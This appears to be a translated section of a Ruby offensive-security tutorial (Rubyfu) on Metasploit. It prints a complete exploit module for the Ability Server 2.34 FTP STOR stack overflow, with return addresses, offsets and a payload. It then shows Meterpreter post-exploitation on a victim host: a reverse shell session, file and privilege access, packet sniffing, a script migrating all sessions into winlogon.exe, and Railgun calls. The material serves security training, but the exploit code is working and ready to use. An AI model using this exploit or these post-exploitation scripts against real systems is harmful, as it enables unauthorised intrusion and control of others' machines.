+   选择一个默认的有效载荷

+   设置坏字符。

+   设置披露日期

+   目标及其返回地址（EIP 偏移）

+   设置目标 IP、端口的选项。如果需要，还有用户名和密码。

+   检查目标是否存在漏洞。

+   发送利用

+   检查模块是否已正确编写（msftidy.rb）

#### 步骤

+   创建利用模块

+   利用 FTP 服务器

+   为模块设置一个等级

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

### Module Type ###
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking

include Msf::Exploit::Remote::Ftp 
```

+   描述该模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   选择一个默认的有效载荷

+   设置坏字符。

+   设置披露日期

+   目标及其返回地址（EIP 偏移）

+   设置目标 IP、端口的选项。如果需要，还有用户名和密码。

```
 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'        => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

    register_options(
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end 
```

+   检查目标是否存在漏洞。

```
def check
  connect
  disconnect
  if banner =~ /Ability Server 2\.34/
    return Exploit::CheckCode::Appears
  else
    if banner =~ /Ability Server/
      return Exploit::CheckCode::Detected
    end
  end
  return Exploit::CheckCode::Safe
end 
```

+   发送利用

```
def exploit
  c = connect_login
  return if not c

  myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

  # Take client IP address + FTP user lengths into account for EIP offset
  padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
  junk = rand_text_alpha(padd_size)

  sploit = junk
  sploit << [target.ret].pack('V')
  sploit << make_nops(32)
  sploit << payload.encoded
  sploit << rand_text_alpha(sploit.length)

  send_cmd(['STOR', sploit], false)
  handler
  disconnect
end 
```

### 总结

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Ftp

 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'       => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

    register_options(
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end

  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    c = connect_login
    return if not c

    myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

    # Take client IP address + FTP user lengths into account for EIP offset
    padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
    junk = rand_text_alpha(padd_size)

    sploit = junk
    sploit << [target.ret].pack('V')
    sploit << make_nops(32)
    sploit << payload.encoded
    sploit << rand_text_alpha(sploit.length)

    send_cmd(['STOR', sploit], false)
    handler
    disconnect
  end
end 
```

+   检查模块是否已正确编写（msftidy.rb）

```
metasploit-framework/tools/dev/msftidy.rb ability_server_stor.rb 
```

# Meterpreter

# Meterpreter

来自官方[wiki](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter)，Meterpreter 是 Metasploit 自 2004 年以来的一个高级负载。最初由 Matt "skape" Miller 编写，数十位贡献者提供了额外的代码，该负载继续作为 Metasploit 开发的一部分经常更新。

Meterpreter 是一个负载框架，提供 API 与之交互，通过编写脚本和插件来增加其功能。您可以在`metasploit-framework/scripts/meterpreter`中找到 Meterpreter 脚本，这些脚本可在后期利用中使用**run**（例如 getuid、getsystem、migrate、scraper 等）。Meterpreter 源代码位于`metasploit-framework/lib/rex/post/meterpreter`。

实际上，您无法想象 Meterpreter 的强大之处，直到阅读其[愿望清单和功能](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist)，而不仅仅是使用它。

要开始，让我们在受害者机器上获得一个 Meterpreter shell，以便开始内联练习，然后我们可以编写一些脚本

一旦获得 Meterpreter shell，请输入`irb`以进入 ruby 的 IRB。大多数所需模块已经加载。然后输入`require 'irb/completion'`以支持 IRB 控制台的自动补全，就像下面的例子一样

```
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the Meterpreter client

>> require 'irb/completion'
=> true 
```

如果您想使用`Pry`而不是`irb`，请键入`pry`并使控制台更易读。个人更喜欢`pry`

```
meterpreter > pry
_pry_.prompt = proc { "-> " } 
```

正如你所看到的，你已经被放到了一个名为`client`的实例变量的 IRB 控制台中，该实例变量是正在运行的 Meterpreter 的一部分。

试试这个作为一个开始

```
print_good("Rubyfu!") 
```

+   列出与`client`实例关联的所有方法

这将返回一个数组。

```
puts client.methods.sort 
```

让我们来检查一些有趣的方法。

+   受害者的 IP 地址和端口

```
client.session_host
client.session_port 
```

+   受害者计算机信息和平台

```
client.info
client.platform 
```

返回

```
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

=> "x86/win32" 
```

+   获取当前利用数据存储

```
client.exploit_datastore
# Or 
client.exploit.datastore 
```

返回一个包含导致此 Meterpreter 会话的所有利用信息的哈希

```
{"VERBOSE"=>false, "WfsDelay"=>0, "EnableContextEncoding"=>false, "DisablePayloadHandler"=>false, "ExitOnSession"=>true, "ListenerTimeout"=>0, "payload"=>"windows/meterpreter/reverse_tcp", "LPORT"=>4444, "ReverseConnectRetries"=>5, "ReverseAllowProxy"=>false, "ReverseListenerThreaded"=>false, "PayloadUUIDTracking"=>false, "EnableStageEncoding"=>false, "StageEncoderSaveRegisters"=>"", "StageEncodingFallback"=>true, "PrependMigrate"=>false, "EXITFUNC"=>"process", "AutoLoadStdapi"=>true, "AutoVerifySession"=>true, "AutoVerifySessionTimeout"=>30, "InitialAutoRunScript"=>"", "AutoRunScript"=>"", "AutoSystemInfo"=>true, "EnableUnicodeEncoding"=>false, "SessionRetryTotal"=>3600, "SessionRetryWait"=>10, "SessionExpirationTimeout"=>604800, "SessionCommunicationTimeout"=>300, "lhost"=>"192.168.0.18", "ReverseListenerBindPort"=>0, "TARGET"=>0} 
```

* * *

# API 和扩展

# Meterpreter API 和扩展

Meterpreter 扩展位于`metasploit-framework/lib/rex/post/meterpreter`。强烈建议浏览并打开文件以了解代码及其风格。

## 扩展 ClientCore：`core`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/client_core.rb`

```
>> client.core
=> #<Rex::Post::Meterpreter::ClientCore:0x00000005f83388 @client=#<Session:meterpreter 192.168.0.18:55861 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">, @name="core"> 
```

**use**方法用于加载 meterpreter 扩展，该方法用于 meterpreter 控制台（例如`use sniffer`，`use mimikatz`等）

> 注意：要列出 meterpreter 控制台中所有可加载的扩展，请使用`use -l`命令。

从 meterpreter 的 IRB 控制台，让我们尝试使用*sniffer*扩展

```
>> client.sniffer
=> nil 
```

正如你所看到的，它返回一个`nil`，因为*sniffer*扩展尚未加载。

让我们尝试加载扩展

```
>> client.use "sniffer"
=> nil 
```

正如你所看到的，它返回一个`nil`，因为方法*use*在`core`扩展中可用，而不在 meterpreter`client`实例中。

+   加载扩展：`load sniffer`

```
>> client.core.use "sniffer"
=> true
>> client.sniffer
=> #<Rex::Post::Meterpreter::Extensions::Sniffer::Sniffer:0x000000142cc108 @client=#<Session:meterpreter 192.168.0.18:55861 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">, @name="sniffer"> 
```

要检查所有*sniffer*扩展方法，请转到`metasploit-framework/lib/rex/post/meterpreter/extensions/sniffer/sniffer.rb`

同样，从 IRB 中，获取所有方法，正如我们所知

```
client.sniffer.methods 
```

返回一个包含所有可用方法的数组

```
>> client.sniffer.methods
=> [:interfaces, :capture_start, :capture_stop, :capture_stats, :capture_release, :capture_dump, :capture_dump_read, :name, :name=, :client, :client=, :psych_to_yaml, :to_yaml, :to_yaml_properties, :blank?, :present?, :presence, :acts_like?, :to_param, :to_query, :try, :try!, :duplicable?, :deep_dup, :in?, :instance_values, :instance_variable_names, :to_json, :with_options, :html_safe?, :`, :dclone, :old_send, :as_json, :require_or_load, :require_dependency, :load_dependency, :load, :require, :unloadable, :assert_no_remainder, :decode_tlv, :decode_integer, :decode_timeticks, :decode_integer_value, :decode_uinteger_value, :build_integer, :decode_octet_string, :decode_ip_address, :decode_sequence, :decode_object_id, :decode_object_id_value, :encode_length, :encode_integer, :encode_tagged_integer, :integer_to_octets, :encode_null, :encode_exception, :encode_tlv, :encode_octet_string, :encode_sequence, :encode_object_id, :pretty_print, :pretty_print_cycle, :pretty_print_instance_variables, :pretty_print_inspect, :nil?, :===, :=~, :!~, :eql?, :hash, :<=>, :class, :singleton_class, :clone, :dup, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :freeze, :frozen?, :to_s, :inspect, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variables, :instance_variable_get, :instance_variable_set, :instance_variable_defined?, :remove_instance_variable, :instance_of?, :kind_of?, :is_a?, :tap, :send, :public_send, :respond_to?, :extend, :select, :display, :sleep, :method, :public_method, :singleton_method, :define_singleton_method, :object_id, :to_enum, :enum_for, :gem, :class_eval, :pretty_inspect, :silence_warnings, :enable_warnings, :with_warnings, :silence_stderr, :silence_stream, :suppress, :capture, :silence, :quietly, :debugger, :breakpoint, :suppress_warnings, :==, :equal?, :!, :!=, :instance_eval, :instance_exec, :__send__, :__id__] 
```

+   获取可用接口：`sniffer_interfaces`

返回哈希数组

```
client.sniffer.interfaces
=> [{"idx"=>1, "name"=>"\\Device\\NdisWanBh", "description"=>"WAN Miniport (Network Monitor)", "type"=>3, "mtu"=>1514, "wireless"=>false, "usable"=>true, "dhcp"=>false}, 
{"idx"=>2, "name"=>"\\Device\\{DF8BF690-33F1-497F-89ED-A31C236FE8E3}", "description"=>"Intel(R) PRO/1000 MT Network Connection", "type"=>0, "mtu"=>1514, "wireless"=>false, "usable"=>true, "dhcp"=>true}] 
```

## 扩展 Stdapi::Fs：`fs`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/fs`

```
>> client.fs
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001db6ae0 @aliases={"dir"=>#<Class:0x00000001e09e70>, "file"=>#<Class:0x00000001e12890>, "filestat"=>#<Class:0x00000001db7530>, "mount"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Fs::Mount:0x00000001db6c48 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>}> 
```

### Dir 类：`dir.rb`

`fs`可用的扩展之一是位于`metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/fs/dir.rb`中的**Dir**。让我们使用一些我们可以从`client.fs.dir.methods`或源代码中了解的方法。

+   获取当前目录：`pwd`

    ```
    >> client.fs.dir.pwd
    => "C:\\Windows\\System32" 
    ```

+   列出当前目录中的所有文件和目录`ls`

    ```
    client.fs.dir.entries
    client.fs.dir.entries_with_info 
    ```

+   更改当前目录：`cd`

    ```
    >> client.fs.dir.chdir("c:\\")
    => 0
    >> client.fs.dir.pwd
    => "c:\\" 
    ```

+   创建一个新目录：`mkdir`

    ```
    >> client.fs.dir.mkdir("Rubyfu")
    => 0
    >> client.fs.dir.chdir("Rubyfu")
    => 0
    >> client.fs.dir.pwd
    => "c:\\Rubyfu" 
    ```

### 文件类：`file.rb`

发现**File**类，让我们从一个简单的搜索开始。尝试下载和下载文件。

+   搜索

    ```
    client.fs.file.search("C:\\Users", "*.exe") 
    ```

## 扩展 Stdapi::Fs：`sys`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys`

```
>> client.sys
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd600 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::Config:0x00000001db69c8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "process"=>#<Class:0x00000001db69a0>, "registry"=>#<Class:0x00000001db8ed0>, "eventlog"=>#<Class:0x00000001dc0e28>, "power"=>#<Class:0x00000001dc4398>}> 
```

### 配置类：`config.rb`

+   获取用户 ID：`getuid`

    ```
    >> client.sys.config.getuid
    => "NT AUTHORITY\\SYSTEM" 
    ```

+   获取系统信息

    ```
    >> client.sys.config.sysinfo
    => {"Computer"=>"WIN7-64-VICTIM", "OS"=>"Windows 7 (Build 7600).", "Architecture"=>"x64 (Current Process is WOW64)", "System Language"=>"en_US", "Domain"=>"WORKGROUP", "Logged On Users"=>2} 
    ```

+   检查当前进程是否以 SYSTEM 用户身份运行

    ```
    >> client.sys.config.is_system?
    => true 
    ```

+   启用所有可能的特权：`getpriv`

    ```
    >> client.sys.config.getprivs
    => ["SeDebugPrivilege", "SeIncreaseQuotaPrivilege", "SeSecurityPrivilege", "SeTakeOwnershipPrivilege", "SeLoadDriverPrivilege", "SeSystemProfilePrivilege", "SeSystemtimePrivilege", "SeProfileSingleProcessPrivilege", "SeIncreaseBasePriorityPrivilege", "SeCreatePagefilePrivilege", "SeBackupPrivilege", "SeRestorePrivilege", "SeShutdownPrivilege", "SeSystemEnvironmentPrivilege", "SeChangeNotifyPrivilege", "SeRemoteShutdownPrivilege", "SeUndockPrivilege", "SeManageVolumePrivilege"] 
    ```

### 进程类：`process.rb`

+   获取当前进程 ID：`getpid`

    ```
    >> client.sys.process.getpid
    => 2392 
    ```

+   获取所有存在的进程及其详细信息（pid、ppid、名称、路径、会话、用户、架构）：`ps`

    ```
    client.sys.process.get_processes
    # Or
    client.sys.process.processes 
    ```

## 扩展 Stdapi::Fs：`net`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net`

```
>> client.net
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd3d0 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Config:0x00000001dcd4e8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "socket"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Socket:0x00000001dcd4c0 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "resolve"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Resolve:0x00000001dcd470 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>}> 
```

+   获取当前受害者接口：`ifconfig` 或 `ipconfig`

    ```
    client.net.config.get_interfaces
    # Or 
    client.net.config.interfaces
    # Try nicer outputs
    >> puts client.net.config.interfaces[0].pretty
    Interface 11
    ============
    Name         : Intel(R) PRO/1000 MT Network Connection
    Hardware MAC : 00:0c:29:ff:fa:10
    MTU          : 1500
    IPv4 Address : 192.168.242.128
    IPv4 Netmask : 255.255.255.0
    IPv6 Address : fe80::482c:27b5:6914:e813
    IPv6 Netmask : ffff:ffff:ffff:ffff:: 
    ```

+   获取网络统计信息：`netstat`

    ```
    client.net.config.netstat 
    ```

+   获取 ARP 表：`arp`

    ```
    client.net.config.arp_table
    client.net.config.arp_table[0].ip_addr      # IP address 
    client.net.config.arp_table[0].mac_addr     # MAC address 
    client.net.config.arp_table[0].interface    # Interface 
    ```

+   路由：`route`

    ```
    client.net.config.routes        # List routes 
    client.net.config.add_route("192.168.2.0", 24, "192.168.2.1")   # Add route 
    ```

+   获取代理设置：`getproxy`

    ```
    client.net.config.get_proxy_config 
    ```

正如您可以看到，熟悉 Meterpreter API 是多么容易。还有其他扩展可以使用。

```
meterpreter > use -l
espia
extapi
incognito
kiwi
lanattacks
mimikatz
priv
python
sniffer
stdapi 
```

您也可以在 Rubyfu 中添加更多相关内容！

# Meterpreter 脚本

# Meterpreter 脚本

由于计划移除 Meterpreter 脚本并用 POST 模块替换，我们将只放一个骨架 Meterpreter 脚本。

您可以在以下位置找到您的新 Meterpreter 脚本

+   框架本身 `metasploit-framework/scripts/meterpreter` 或，

+   在您的 Metasploit 用户路径 `~/.msf/scripts/meterpreter` 中

## 绝对 Meterpreter 脚本

```
# $Id$
# $Revision$
# Author: 
#-------------------------------------------------------------------------------
################## Variable Declarations ##################

@client = client
sample_option_var = nil
@exec_opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ],
    "-o" => [ true , "Option that requires a value"]
    )
meter_type = client.platform

################## Function Declarations ##################

# Usage Message Function
#-------------------------------------------------------------------------------
def usage
    print_line "Meterpreter Script for INSERT PURPOSE."
    print_line(@exec_opts.usage)
    raise Rex::Script::Completed
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions 
```

该脚本直接引用自 Metasploit 示例

## 在多个 Meterpreter 会话上运行进程迁移

从 `msfconsole` 并在获取所有 Meterpreter 会话后，转到 `post/windows/manage/migrate`

```
use post/windows/manage/migrate 
```

> **注意：** 确保您有足够的权限迁移到指定的进程

然后创建一个包含 `<ruby> </ruby>` 标签的 `rc` 扩展名文件

**mass-mirgation.rc**

```
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby> 
```

现在，从 msfconsole，

```
resource /home/rubyfu/mass-migration.rc 
```

结果将类似于

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[*] Session 2 | Finding PID of processe winlogon.exe
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Session 3 | Finding PID of processe winlogon.exe
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Session 4 | Finding PID of processe winlogon.exe
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240 
```

# Railgun API 扩展

# Railgun API 扩展

引用自 [DefCon20 中的 Railgun 演示](https://www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf)，**Railgun** 是 Meterpreter stdapi 的一个扩展，允许任意加载 DLL。由于 Windows API DLL 总是在已知路径上，我们总是可以加载它们。

使用 Railgun 的最终好处是获得动态访问系统上整个 Windows API 的能力。通过从用户进程调用 API，我们可以模拟用户，一切皆有可能。

Railgun 用作 POST 渗透 API，因此熟悉它将为后渗透阶段带来许多新的可能性。

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun`

+   所有定义的 DLL 都位于 `metasploit-framework/tree/master/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`

作为一个扩展，我们将像测试之前的扩展一样测试它，通过将 Meterpreter 控制台转到 `irb` 控制台。我们将有一个之前已知的实例化对象称为 `client` 或 `session`。

+   列出所有加载的 DLL

    ```
    >> client.railgun.known_dll_names
    => ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version", "psapi"] 
    ```

+   ���出特定 DLL（比如 `user32`）的所有可用函数及其参数

    ```
    client.railgun.user32.functions.each_pair {|n, v| puts "Function name: #{n}, Params: #{v.params}"} 
    ```

现在，让我们开始使用它，

+   弹出消息框

    ```
    client.railgun.user32.MessageBoxA(0, "Ruby goes evil!", "Rubyfu!", "MB_OK") 
    ```

结果


+   锁定 Windows 屏幕

    ```
    >> client.railgun.user32.LockWorkStation()
    => {"GetLastError"=>0, "ErrorMessage"=>"The operation completed successfully.", "return"=>true} 
    ```

# metasm

# Metasm

Metasm 是一个跨架构的汇编器、反汇编器、链接器和调试器。它的编写方式使得很容易为新的架构添加支持。目前支持以下架构：

+   Intel Ia32.txt（16 和 32 位）

+   Intel X86_64.txt（又称 Ia32 64 位，X64，AMD64）

+   MIPS

+   PowerPC

+   Sh4

支持在 Windows、Linux 和远程（通过 gdbserver）下进行低级和高级调试支持（目前仅支持 Ia32）。Metasm 默认包含在 Metasploit 中。

+   安装 Metasm gem

    ```
    gem install metasm 
    ```

    更多关于安装的信息[在这里](https://github.com/jjyg/metasm/blob/master/doc/install_notes.txt)。

## 将汇编转换为操作码 - metasm-shell.rb

安装后，你可以在 ruby gems 默认路径中找到 metasm-shell。在我的情况下，它位于`/var/lib/gems/2.1.0/gems/metasm-1.0.2/samples`。

+   运行它

```
ruby metasm-shell.rb
type "exit" or "quit" to quit
use ";" for newline

asm> 
```

正如你所看到的，现在你已经在 shell 的提示符下了

+   查找汇编操作码

```
asm> nop nop
"\x90\x90"
asm> call [eax]
"\xff\x10"
asm> push esp
"\x54"
asm> pop eax
"\x58" 
```

对于这个出色的库，将会添加更多用法。

* * *
